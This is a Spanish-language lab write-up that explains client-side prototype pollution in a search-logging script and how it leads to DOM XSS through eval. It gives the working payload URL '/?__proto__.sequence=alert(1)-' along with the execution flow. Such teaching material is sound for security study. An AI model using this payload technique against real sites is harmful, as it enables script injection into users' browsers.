






## LAB



```js
async function logQuery(url, params) {
    try {
        await fetch(url, {method: "post", keepalive: true, body: JSON.stringify(params)});
    } catch(e) {
        console.error("Failed storing query");
    }
}

async function searchLogger() {
    window.macros = {};
    window.manager = {params: $.parseParams(new URL(location)), macro(property) {
            if (window.macros.hasOwnProperty(property))
                return macros[property]
        }};
    let a = manager.sequence || 1;
    manager.sequence = a + 1;

    eval('if(manager && manager.sequence){ manager.macro('+manager.sequence+') }');

    if(manager.params && manager.params.search) {
        await logQuery('/logger', manager.params);
    }
}

window.addEventListener("load", searchLogger);
```

## Automatizado







Si bien la automatización del `DOM invader` te da la url de para generar un `xss`, en este caso no funciona ya que se tiene que agregar aun un `-` 
## Analizando manualmente
El codigo Js:

1. Crea `manager` con los params de la URL y un método `macro()`
2. Lee `manager.sequence` — si no existe, usa `1`
3. Le suma 1 y lo guarda
4. Mete ese valor dentro de un `eval()`

El problema está en que `manager.sequence` no está definido en el objeto. Cuando JS no encuentra una propiedad en el objeto, sube al prototipo a buscarla.

#### La explotación

Con esta URL:
```
/?__proto__.sequence=alert(1)-
````

`$.parseParams` contamina:

```js
Object.prototype.sequence = "alert(1)-"
```

Entonces cuando el código hace:

```js
let a = manager.sequence  // no existe en manager → sube al proto → "alert(1)-"
manager.sequence = "alert(1)-" + 1  // → "alert(1)-1"
```

Y el eval construye:

```js
eval('if(manager && manager.sequence){ manager.macro(alert(1)-1) }')
```

JavaScript lee `alert(1)-1` como una operación aritmética válida — ejecuta `alert(1)` para obtener el valor, resta 1, y el XSS se dispara.

#### ¿Por qué el `-` y no otra cosa?

Sin `-`, el payload será solo `alert(1)`:

```js
manager.sequence = "alert(1)" + 1  // → "alert(1)1"
// eval recibe: manager.macro(alert(1)1)  ← error de sintaxis, no ejecuta
```

Con `-`:

```js
manager.sequence = "alert(1)-" + 1  // → "alert(1)-1"
// eval recibe: manager.macro(alert(1)-1)  ← expresión aritmética válida ✓
```

`alert()` retorna `undefined`, `undefined - 1 = NaN`, pero JavaScript **igual ejecuta `alert(1)`** para resolver la expresión. Eso es el XSS.

#### Flujo completo

```js
/?__proto__.sequence=alert(1)-
        ↓
$.parseParams contamina Object.prototype.sequence
        ↓
manager.sequence no existe → sube al proto → "alert(1)-"
        ↓
se concatena con 1 → "alert(1)-1"
        ↓
eval ejecuta alert(1)-1 como expresión aritmética
        ↓
XSS 
```



